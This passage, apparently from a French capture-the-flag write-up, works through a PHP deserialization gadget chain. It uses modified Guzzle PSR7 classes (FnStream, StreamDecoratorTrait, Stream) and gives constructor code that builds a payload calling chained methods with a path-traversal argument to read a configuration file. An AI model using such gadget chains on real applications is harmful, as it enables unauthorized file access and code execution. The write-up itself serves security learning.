 Par ailleurs, `FnStream` a bien une méthode `decorate`, donc la fonction va s'exécuter.

StreamDecoratorTrait.php
```php
public function getAllowedMethods($filter = array('close'))
{
    $classReflection = new \ReflectionClass("GuzzleHttp\Psr7\FnStream");
    $methodsReflections = $classReflection->getMethods();
    $methodNames = array_map(function (ReflectionMethod $methodReflection) {
        return $methodReflection->getName();
    }, array_values($methodsReflections));
    $methodNames = array_diff($methodNames, $filter);
    return $methodNames;
}
```

La fonction `getAllowedMethods` du `StreamDecoratorTrait` ne contient pas `closeContent`: `methods` est donc remplacé par `$this->custom_method`, qu'il va falloir définir.

## Solution

On peut donc créer un `StreamDecoratorTrait` tel que:
- son attribut `stream` soit un `FnStream` avec `display_content` à `true`;
- créer une liste de méthodes à appeler `['allow_attribute', 'register', 'getContent']` et l'assigner à `custom_method`;
- appeler `closeContent` de notre `StreamDecoratorTrait` avec pour argument un tableau avec les arguments des méthodes à appeler.

Pour cela, je configure un objet `Stream` tel que:
- `customMetadata` est le `StreamDecoratorTrait`;
- `size` est le tableau des arguments.

Pour créer la sérialisation, j'ai modifié les constructeurs des différentes classes:

Stream.php
```php
public function __construct($stream, $options = [])
{
    $this->size = array(array("_fn_getContents"), array("_fn_getContents", "/../../../../config"), array(""));
    $this->customMetadata = $stream;
}
```

StreamDecoratorTrait.php
```php
public function __construct(StreamInterface $stream)
{
    $this->stream = $stream;
    $this->custom_method = array("allow_attribute", "register", "getContents");
}
```

FnStream.php
```php
public function __construct(array $methods)
{
    $this->display_content = true;
}
```
